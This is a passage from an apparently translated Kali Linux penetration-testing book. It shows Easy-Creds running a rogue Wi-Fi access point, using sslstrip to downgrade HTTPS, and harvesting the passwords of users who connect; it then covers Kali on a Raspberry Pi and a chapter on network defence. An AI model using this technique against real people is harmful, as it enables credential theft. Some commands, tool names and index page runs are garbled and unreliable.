`Easy-Credds`是一个非常优秀的菜单驱动程序，允许你将无线卡变成一个完整的无线接入点（AP）攻击平台。`Easy-Credds`创建一个违规接入点，然后以中间人攻击的形式运行，分析用户的数据流，并从流中提取账户信息，包括在受保护网站上输入的密码。

它通过使用非常流行的程序`SSL strip`移除任何 SSL 加密，从而恢复安全账户。基本上，`SSL strip`代替浏览器捕获并管理 HTTPS SSL 通信，将用户的会话降级为普通的 HTTP 连接。

这样，任何账户信息在转发到 SSL 加密网站之前都可以被捕获并读取。

### 安装 Easy-Credds

虽然`Easy-Credds`曾是`BackTrack 5`的一部分，但在`Kali`中默认没有安装。我们将使用作者的安装脚本来安装`easy-creds`。由于它不是从`Kali`仓库安装的，可能会破坏其他功能，*请根据你的自行决定是否安装*。

1. 从 "http://code.google.com/p/easy-creds/downloads/list" 下载。
2. 使用命令解压文件：`tar -xvf easy-creds-3.8-DEV.tar.gz`
3. 进入新的 *easy-creds* 目录。
4. 如果需要，输入“cat README”读取安装说明。
5. 输入`sudo ./installer.sh`运行安装脚本，你将看到主界面：

```text
Version 3.7 - Garden of Your Mind
Installer
nPlease choose your OS to install easy-creds
1. Debian/Ubuntu and derivatives
2. Red Hat or Fedora
3. Microsoft Windows
4. Exit
Choice: _
KALI LINUX
The quieter you become, the more you are able to hear
```

6. 选择数字 1，“Debian/Ubuntu and derivatives”。

7. 然后你会被要求选择安装目录，我直接选了默认值：

```text
Please provide the path you'd like to place the easy-creds folder. [/opt/]
[+] Installing pre-reqs for Debian/Ubuntu...
```


[+] Running `updateddb`

[-] cmake is not installed, will attempt to install...

现在程序会检查已安装的进程，并尝试安装和配置 Easy-Credds 需要的许多支持程序：

```
[+] Running 'updateddb'

[-] cmake is not installed, will attempt to install...

[+] I found gcc installed on your system

[+] I found g++ installed on your system

[+] I found subversion installed on your system

[+] I found wget installed on your system

[-] libss2-dev is not installed, will attempt to install...
```

这取决于你已经安装了哪些工具。完成后，你会看到类似下面的的消息：

```
[+] The patched freeradius server has been installed

[+] I found asleep installed on your system

[+] I found metasploit installed on your system
```

下方的截图显示了一个用户通过 iPad 连接到 Windows Live 并尝试登录读取电子邮件：


如你所 Ettercap 隧道屏幕所示，该用户尝试使用用户名“cyberalarms@live.com”和密码“password”登录 Windows live。

1. 现在在主菜单中选择选项 4，“数据审查”（Data Review）：


2. 选择数字 3，“解析 ettercap eci 文件凭据”（Parse ettercap eci file for credentials）：

```
At any time, ctrl+c to cancel and return to the main menu

1. Parse Strip log for credentials

2. Parse dmiff file for credentials

3. Parse aftercap eci file for credentials

4. Parse freeradi attack file for credentials

5. Previous Menu

Choice: 3
```

3. 复制并粘贴系统向你提供的 Ettercap 路径：

```
At any time, ctrl+c to cancel and return to the main menu

ettercap logs in current log folder:

/opt/easy-creds/easy-creds-2013-10-09-1228/ettercap2013-10-09-1233.eci

Enter the full path to your aftercap eci log file: /opt/easy-creds/easy-creds-2013-10-09-1228/ettercap2013-10-09-1233.eci
```

你将看到一些 Ettercap 能够恢复的凭据：


在这里你可以看到用户名和密码，以及他们尝试访问的网站。

记住，我们的“受害者”访问了一个 SSL 加密的 HTTPS 网站，登录凭据本应是加密的。但通过使用 Easy Creds，我们能够恢复流量，使用 `sslstrip` 剥离加密，并以明文查看登录凭据。

## 结论

在本教程中，我们展示了如何使用 Easy-Creds 创建一个恶意的无线接入点，从而从安全网站恢复用户账户信息。

这种技术对于能够进入公司内部并设置伪造 Wi-Fi 系统以拦截用户凭据的渗透测试员来说效果非常好。

此部分也应该是对企业安全团队的警告：设置一个伪造 Wi-Fi 接入点是非常容易的。如果一家公司严重依赖无线网络，扫描伪造设备应该是常备做法。

# 第七部分 - 树莓派

# 第 30 章 – 在树莓派上安装 Kali

### 资源

- Kali Raspberry Pi ARM Image - http://www.kali.org/downloads/
- Win32 Disk Imager - http://sourceforge.net/projects/win32diskimager/
- Putty 下载 - http://www.chiark.greenend.org/~sgatham/putty/download.html
- Xming - http://sourceforge.net/projects/xming/

## 引言

在本章中，我们将学习如何在 Pi 上安装 Kali Linux，通过 Windows 7 远程连接它，并使用它进行一些无线安全测试。

Kali Linux 是流行的 Backtrack 渗透测试和安全平台的最新版本。它增加了大量的更新和增强，使得 Kali 比以往任何时候都更强大且更易于更新。

> （注意：我偶尔注意到某些程序在 ARM 版本的 Kali 上无法从命令提示符运行。你可能需要从它们的程序目录 `/usr/bin` 中执行它们。）

树莓派是一种非常廉价的功能性“信用卡”大小的电脑，有两种型号。本文使用的“B”型具有 512 MB RAM、视频输出、网卡、音频接口和双 USB 端口，令人惊讶的是价格仅约为 35 美元。

Pi 拥有基于 ARM 的处理器，并预装了操作系统。但为 ARM 的其他操作系统也可以运行在 Pi 上。

Offensive Security 的伙伴们为树莓派创建了 Kali Linux 镜像，因此安装不能更简单了。你只需要一个树莓派、Kali 镜像和一张 SD 卡。我们将使用 Windows 系统将镜像写入 SD 卡，然后通过 SSH 连接到 Pi。

> 提醒：一如既往，永远不要连接或访问你没有获得明确许可才能访问的网络。这样做可能会让你陷入法律麻烦，你甚至可能入监狱。

## Pi 电源和内存卡

在开始之前，让我快速介绍一下树莓派的电源问题。Pi 通常不随附带电源适配器。如果你使用的适配器提供的电流不足，Pi 的运行将会异常，尤其是当你接入 Wi-Fi 卡时。

制造商建议使用 2 安培电源。许多微 USB 电源适配器仅提供1 安培或更。我使用 Rocketfish 的 2.1 安培适配器效果非常好。

Pi 也不自带所需的 SDHC 内存卡。选择卡时有一个简单的规则：越快越好。我使用了一张传输率为 15MB 的 Sony 16GB 内存卡。

# 在树莓派上安装 Kali

以下是在 Pi 上安装 Kali Linux 的方法：

1. 下载 Kali Raspberry Pi ARM Image。
2. 使用 Win32 Disk Imager 将镜像写入 SD 卡。
3. 将 SD 卡插入树莓派。
4. 打开树莓派电源。
5. 启动系统。

# 连接到“无头” Pi

操作方法如下：

1. 下载 Windows 版 Putty。
2. 运行 Putty 并输入树莓派的 IP 地址。
3. 确保端口输入 22 并选择连接类型为“SSH”。
4. 点击“Open”。
5. 使用 Kali 默认凭据（`root/toor`）。

# 通过 Putty 远程查看图形程序

好了，你可以通过 Putty 运行任何文本程序，但如果你尝试运行图形程序，它将工作。如果我们使用 Windows 的 X Server Xming，我们可以在远程 Putty 连接上运行 X 程序。

1. 只需下载并安装 Xming。
2. 当询问安装哪些组件时，点击“不安装 SSH 客户端”，完成安装。
3. 现在再次打开 Putty，输入树莓派的 IP 地址和端口。

4. 然后，展开左侧 Category 下的 SSH Connection 标签页，然后所示点击 X11


5. 启用 X11 转发（forwarding），并在 X display location 处输入“localhost:0”。
6. 继续启动 putty 会话（确保 Xming 正在后台运行）。

你现在已经能够通过 SSH 连接远程查看图形化程序了。

注意，命令“starts”在直接通过 Putty 运行时是无法作用的。如果你确实打开了桌面，并且启用了 X11 转发，你只需要输入：

```bash
@kali/# xfce4-session
```

这将通过 X 启动一个桌面会话，你将能够在你的 Windows 系统上远程看到整个 Kali 桌面如下所示：


虽然不需要桌面，但在许多情况下，直接从命令行提示符运行命令而不启动桌面要简单得多。这样做还可以节省树莓派上一些宝贵的资源。

# 第31 章 – 在树莓派上的 WiFi 渗透测试

### 资源

- 验证过的树莓派（非 Kali）外设 - http://elinux.org/RPi_VerifiedPeripherals

### 使用树莓派进行基础 Wi-Fi 渗透测试

在 Backtrack 5/Kali 中运行大部分命令在树莓派上运行都没有问题。在 Pi 上使用 Kali 进行无线渗透测试效果非常好，而且非常有趣。

只需将你的 USB Wi-Fi 适配器插入 Pi。我使用了一个带天线的 TP-Link TL-WN722N Wi-Fi 适配器。

注意到一点，如果插入 Wi-Fi 适配器后树莓派没有正常启动，你可能需要重启。

在命令行提示符输入 `ifconfig`，检查你的 Wi-Fi 适配器是否在列表中。它应该显示为 `wlan0`。如果你没有看到它，输入 `ifconfig wlan0 up`。然后再次运行 `ifconfig`，它就会显示：

```bash
root@kali# ifconfig wlan0 up

root@kali# ifconfig

eth0

  link:ethernet HWaddr:b8:2f

  inet addr:192.168.1.135 Bcast:192.168.1.255 Mask:255.255.255.0

  inet addr:fe80::1ba2:7ff:fe45bca/64 Scope:link

  UP BROADCAST MULTICAST  MTU:1500  Metric:1  frame:0

  RX packets:89 errors:0 dropped:0 overruns:0 carrier:0

  TX packets:96 errors:0 dropped:0 overruns:0 carrier:0

  RX bytes:7943 (7.8 KiB) TX bytes:14104 (13.7 KiB)

lo

  wlan0

  link:encapLocal Loopback

  inet addr:127.0.0.1 Mask:255.0.0.0

  UP BROADCAST MULTICAST  MTU:1500  Metric:1  frame:0

  RX packets:0 errors:0 dropped:0 overruns:0 carrier:0

  TX packets:0 errors:0 dropped:0 overruns:0 carrier:0

  collisions:0 txqueuelen:1000

  RX bytes:0 (0.0 B) TX bytes:0 (0.0 B)

wlan0

  link:encapEthernet HWaddr:b8:2f:d1:b1:37df

  UP BROADCAST MULTICAST  MTU:1500  Metric:1  frame:0

  RX packets:0 errors:0 dropped:0 overruns:0 carrier:0

  TX packets:0 errors:0 dropped:0 overruns:0 carrier:0

  collisions:0 txqueuelen:1000

  RX bytes:0 (0.0 B) TX bytes:0 (0.0 B)
```

接下来，看看我们的无线卡能看到哪些网络：

- 输入 `iwlist wlan0 scanning`:

太棒了，看起来一切运行正常。现在让我们运行一些基础的 Aircrack-NG 工具。

首先，我们需要将无线适配器设置为监听模式（monitoring mode）。这是一种允许我们捕获并查看无线信号的特殊模式。

- 输入 `airmon-ng wlan0 start`

```bash
root@kali:-$ airmon-ng start|stop|check --interface [channel or frequency] wlan0

root@kali:-$ airmon-ng start wlan0

发现1 个可能导致问题的进程。

airirdump-ng, airplay-ng 或 airmon-ng 在短段时间后停止工作，

你可能需要杀死（部分）它们！

PID     Name

1482    dhclient

missing btime in /proc/stat

Interface   Chipset                 Driver

wlan0       Atheros AR8271      ath9k 

wlan0

  link:encapEthernet HWaddr:b8:2f:d1:b1:37df

  UP BROADCAST MULTICAST  MTU:1500  Metric:1  frame:0

  RX packets:0 errors:0 dropped:0 overruns:0 carrier:0

  TX packets:0 errors:0 dropped:0 overruns:0 carrier:0

  collisions:0 txqueuelen:1000

  RX bytes:0 (0.0 B) TX bytes:0 (0.0 B)
```


# 第八章 - 防御你的网络

## 第32 章 – 网络防御与总结

### 资源

- 选择与保护密码 - http://www.us-cert.gov/ncas/tips/ST04-002
- 避免社交工程学与钓鱼攻击 - http://www.us-cert.gov/ncas/tips/ST04-014
- 在网络站点保持安全 - http://www.us-cert.gov/ncas/tips/ST06-003
- 谨慎使用电子邮件附件 - http://www.us-cert.gov/ncas/tips/ST04-010
- 漏洞扫描器 - http://sectools.org/tag/vuln-scanners/

## 引言

在本书中，我们花了大量时间介绍攻击性安全技术。我们将通过对如何保护你的网络系统免受此类攻击的快速讨论来结束全文。

我们将简要介绍：

- 补丁与更新
- 防火墙与入侵防御系统 (IPS)
- 反病毒软件/网络安全程序
- 限制服务与用户权限
- 使用脚本拦截程序
- 使用长复杂的密码
- 网络安全监控
- 日志记录
- 用户教育
- 扫描你的网络
- 最后，使用攻击性安全

虽然没有哪个系统可以保证 100% 安全，但通过使用这些技术，我们可以让系统变得更难被破解。

## 补丁与更新

如果可能，请使用最新版本的操作系统。在连接互联网的网络环境中使用过旧的操作系统真的不是一个好主意。

如果你正在使用 Windows XP，我强烈建议至少更新到 Windows 7。微软对 Windows XP（以及 Office 2003）的官方支持将于 2014 年 4 月结束。这意味着它将不再接收安全更新，且所有软件都无法保持到最新状态。此外，确保 Adobe 产品、Java 和浏览器浏览器（同 Office 软件）定期打补丁。

确保你所有设备上的硬件固件，特别是面向互联网的设备（路由器、交换机、NAS、摄像头、嵌入式服务器设备等）都是最新的，并定期检查。

如果你处于大型企业环境中，千万不要完全信任自动化补丁和更新管理系统。要定期手动检查重要系统。我见过多台公司服务器在自动安装关键服务包时报错，但补丁管理服务器却显示所有服务器已更新且无错误。

## 防火墙与 IPS

始终使用防火墙，不要在不使用防火墙的情况下将任何系统连接到实时互联网。为你的入站互联网连接设置防火墙，并确保每个系统都使用软件防火墙。

创建入站（Ingress）和出站（Egress）规则策略来监控或控制进出网络的信息。在最简单的层，阻止与你不业务的国家进行通信。更高级的系统允许你控制进出网络的数据类型和协议。

使用 Web 应用防火墙（WAF）保护应用程序服务。尽管这些不能保证你能阻止所有针对 Web 应用的恶意攻击。安全专家强烈建议，即使部署了 WAF，也要对你的 Web 应用进行安全编写并进行漏洞测试。

入侵防御系统（IPS）非常棒，当它们用于网络安全监控类型的系统时（见下文主题），效果更好。

## 反病毒软件/网络安全程序

老实说，我对反病毒程序持矛盾态度。虽然它们确实能阻止威胁，但在 20 年的计算机支持中，我也见过它们不断被绕过。

任何有心的现代黑客都会进入你的公司查明你使用的是哪种反病毒程序。然后他们会定制漏洞代码来绕过该品牌的杀毒软件。如果他们无法确定你运行的是什么，他们会选择一种可以绕过大多数已知杀毒软件的程序。

并不是所有反病毒软件都是平等的。某些杀毒/互联网安全程序非常擅长拦截基于脚本的威胁，这种威胁似乎非常流行。

做些功课，了解顶级反病毒程序应对当前威胁的表现如何，然后选择一个最符合你公司需求的。

## 限制服务与权限级别

关闭服务器和系统上不需要的网络服务和协议。攻击面越小越好。多年来，微软通过更改服务器配置为此提供了帮助。

此外，尽快让旧服务器下线。很多公司会因为可能需要从中获取数据而让旧服务器在线，随着时间推移，它们会被遗忘或不再更新。

永远不要让普通用户在非管理任务中使用提升凭据。严格限制“Root”和“Administrator”级别的使用。在 Windows 系统上，将受攻击的管理员账户提升到神级的“System”级别账户几乎轻而易举。如果受攻击的账户仅是“用户”级别，则要困难得多。

系统管理员应只在执行管理功能时使用管理员级账户，然后切换回非管理员账户进行普通计算工作。

## 使用脚本拦截程序

许多现代在线威胁使用某种 Web 脚本语言。使用如 Giorgio Maone 开发的 Mozilla 插件“NoScript”之类的脚本拦截程序是阻止许多威胁的解决方法。

NoScript 禁止脚本在你访问的任何新网站上自动运行。它还让你很容易允许某些脚本运行，或将网站完全加入白名单。

NoScript 还会记住你的设置，因此当你访问频繁的站点时，脚本会自动拦截或允许。

我也喜欢由 José María Signanini 和 Felix Schn 开发的 Mozilla 插件“Ghostery”。Ghostery 允许你阻止网站上的跟踪脚本、分析程序和不希望的广告。

最后，在可行的情况下启用浏览器的隐私功能。不要让它们存储密码或历史记录，偶尔使用像 Bleachbit 的程序清理缓存。

## 使用长复杂的密码

这不言而喻，但不仅你的计算机系统（以及在线设备），还要为在线账户使用长复杂的密码。密码越长、越复杂，攻击者破解所需就越长。

在最近的一次安全测试中，我发现一个客户用名字作为 Web 应用密码！我用来测试密码强度的程序几秒钟就破解了它。

我的密码没有短于 15 个字符的，重要的更长。

为每个在线账户使用不同的密码，这样即使一个被破解，攻击者也无法利用它访问其他账户。

## 网络安全监控

我是网络安全监控（NSM）的忠实粉丝。如果你运行自己的网络却不知道发生了什么，请去买 Richard Bechtlich 的《网络安全监控之道：超越入侵检测》。

NSM 是一种捕获你所有网络流量（有时在网络中的多个点）并对其进行入侵或异常分析的系统。

如果你认为自己负担不起 NSM 系统，请重新考虑。最常用的之一是免费的！

“Security Onion”由 Doug Burks 创建，是一个强大且功能丰富的 NSM，且完全免费。你只需要一台性能尚好的计算机来运行它、一个网络分路器（Tap）和至少两个网卡。

Security Onion 允许你捕获网络流量，然后对其进行分析并在易用的界面中通知报警。

以下是 Security Onion 运行的一些截图。第一张显示了当我尝试使用 Backtrack（Kali 的旧版本）对网络上的系统进行攻击时触发的一系列警报：


如你所见有多个警告和警报。最后一行（CNT 列）记录了警报的次数！

Security Onion 还能捕获你网络中的 TOR。TOR 是一种匿名协议，通过在全球范围内跳转的加密通信来帮助用户匿名。TOR 可用于善意，但黑客也利用 TOR 来隐藏攻击。

以下是我在受 Security Onion 监控的测试网络中使用 TOR 的原因：

注意已触发多个“已知 TOR 出口节点流量”警报。

Security Onion 拥有大量功能和工具，使得分析和跟踪网络流量变得更容易，并在发现可疑流量时向你报警。

## 日志

这基本上是上一个主题的延续。确保在关键交换机、路由器、防火墙和系统上已启用安全日志记录。

最好让关键设备和系统将安全日志发送到 syslog 服务器，这样你就可以拥有这些日志的副本（以防黑客擦除系统日志），并使事件响应变得更容易。

如果发生了最坏的情况，这有助于跨设备追踪恶意用户和流量。

现在许多基础级防火墙路由器甚至已经包含了 syslog 功能。

## 教育你的用户

如果你的用户允许恶意程序在你的网络上运行，那么你所有的“深度防御”都是徒劳用功。黑客进入你内部网络最常见的方法之一是用户运行电子邮件中的恶意附件，或从网站运行恶意脚本。

教用户避免打开未请求或可疑的附件，或避免访问可疑网站。

有些公司通过张贴标语鼓励使用安全的上网技术，并提醒在在线账户中使用唯一且复杂的密码，取得了成功。

欲了解更多信息，美国计算机应急响应小组 (US CERT) 在 http://www.us-cert.org/ncas/tips/ 编写了一个非常好的参考和警告网站。

## 扫描你的网络

在坏人之前扫描你的网络以发现安全问题。

仅使用 Shodan 就会暴露你网络上可能已经忘记的系统。大型公司通常有很多运行过旧操作系统和 Web 软件的公开系统。

注意检查内部的摄像头、开放设备以及所有提供过多信息（如网络信息、SNMP 字符串和用户账户）的打印机。

此外，使用开源（如 OpenVAS）或商业安全扫描系统（如 NESSUS）来扫描整个网络的安全问题。OpenVAS 预装在 Kali 中，虽然运行它需要经过一些过程，但网上有大量的教程。

## 学习攻击性计算机安全

最后，学习像书中介绍的那种攻击性计算机安全技术。

我们已经涵盖了攻击性安全系统中最基础的技术。市上有大量的书籍和安全培训讲座。学习渗透测试技术（使用 Kali 等产品），然后在 Metasploitable 和 Mutillidae 等工具上尝试你的技能。

与你当地的 OWASP 分会或其他安全小组建立联系。参加安全会议并在安全领域建立人脉。当被问好问题时，可能不介意提供帮助。SANS 也有非常棒的课程。

一旦精通，*在获得管理层许可的情况下*，测试你网络系统的安全性。

## 结论

我想花一点时间感谢你阅读我的书。如果你有任何意见或建议，或者只是想说“你好！”，请告诉我，我非常乐意听到你的反馈！

你可以通过 Cyberarms@live.com 与我联系。

此外，请查看我的博客 **cyberarms.wordpress.com**，以获取最新的计算机安全新闻和教程。

这个项目花费了相当的时间（我实际上是几年前使用 Backrack 开始的，在 Kali 出世后更新了它），但如果反馈良好，我计划编写一本中级书籍，可能还有第三本更高级的书。

再次感谢！

顺颂商祺，

Daniel Dieterle

## 参考文献

- 1. “Windows SP3 and Office 2003 Support Ends April 8th, 2014” - http://www.microsoft.com/en-us/windows/enterprise/endofsupport.aspx
- 2. “Security Onion”, by Doug Burks - http://blog.securityonion.net/

## 索引

### A

- Airmon-NG, 237
- 反病毒软件/网络安全程序, 291

### B

- 浏览器自动攻破, 165
- 浏览器漏洞利用框架 (BeEF), 136

### C

- CLEAREV, 50
- CrackStation

### D

- 内部摄像头、开放设备和打印机, 72

### E

- 深度防御, 263
- 漏洞利用, 32

### F

- 恶意附件, 232
- 恶意脚本, 245

### G

- 获取恶意流量, 51

### H

- 哈希破解, 207, 208, 209, 210, 213, 214, 224, 227, 228, 229, 230, 231, 232, 233, 234, 235, 236, 237, 238, 239, 240, 241, 242, 243, 244, 245, 246, 247, 248, 249, 250, 251, 252, 253, 254, 255, 256, 257, 258, 259, 260, 261, 262, 263, 264, 265, 266, 267, 268, 269, 270, 271, 272, 273, 274, 275, 276, 277, 278, 279, 280, 281, 282, 283, 284, 285, 286, 287, 288, 289, 290, 291, 292, 293, 294, 295, 296, 297, 298, 299, 300

### I

- 内部检查, 72

### K

- 密钥扫描, 255

### L

- 登录, 294

### M

- 密码攻击, 184, 185, 186, 187, 188, 189, 190, 191, 192, 193, 194, 195, 196, 197, 198, 199, 200, 201, 202, 203, 204, 205, 206, 207, 208, 209, 210, 211, 212, 213, 214, 215, 216, 217, 218, 219, 220, 221, 222, 223, 224, 225, 226, 227, 228, 229, 230, 231, 232, 233, 234, 235, 236, 237, 238, 239, 240, 241, 242, 243, 244, 245, 246, 247, 248, 249, 250, 251, 252, 253, 254, 255

### N

- 网络流量, 72
- 网络安全监控, 59

### O

- 开放设备, 212

### P

- 渗透测试, 88

### R

- 远程会话, 41

### S

- 安全扫描, 99
- 安全问题, 105
- 社会工程, 146, 147, 148, 149, 150, 151, 152, 153, 154, 155, 156, 157, 158, 159, 160, 161, 162, 163, 164, 165, 166, 167, 168, 169, 170, 171, 172, 173, 174, 175, 176, 177, 178, 179, 180, 181, 182, 183, 184

### T

- 目标类型, 34

### U

- UAC 绕过, 119

### W

- 摄像头, 53
- Wi-Fi 安全设置 (WPS), 230
- Wifite, 234, 251, 254
- Wireshark, 23, 123, 129, 130, 239, 240, 241, 259, 283, 284
- 字典列表, 215

### Z

- Zenmap, 73
